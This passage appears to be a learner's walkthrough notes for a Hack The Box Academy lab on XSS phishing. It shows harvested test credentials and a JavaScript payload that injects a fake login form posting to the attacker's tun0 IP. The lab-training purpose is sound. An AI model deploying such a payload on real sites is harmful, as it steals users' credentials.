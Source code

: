  ![](https://academy.hackthebox.com/storage/modules/103/xss_image_viewer.jpg)

If we check the`creds.txt` file in our Pwnbox, we see that we did get the login credentials:


```shell-session
smoothment@htb[/htb]$ cat creds.txt
Username: test | Password: test
```

With everything ready, we can start our PHP server and send the URL that includes our XSS payload to our victim, and once they log into the form, we will get their credentials and use them to access their accounts.


# Question
---

![Pasted image 20250130172026.png](../../../../IMAGES/Pasted%20image%2020250130172026.png)

Nice, let's breakdown this question:

## Creating the malicious URL
---

We need to see our `tun0` Ip, we can achieve this by doing `ip a | grep tun0`, once we have our IP, we can submit the following payload into the `/phishing` site:

```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_TUN0_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We can see the following:

![Pasted image 20250130172409.png](../../../../IMAGES/Pasted%20image%2020250130172409.png)
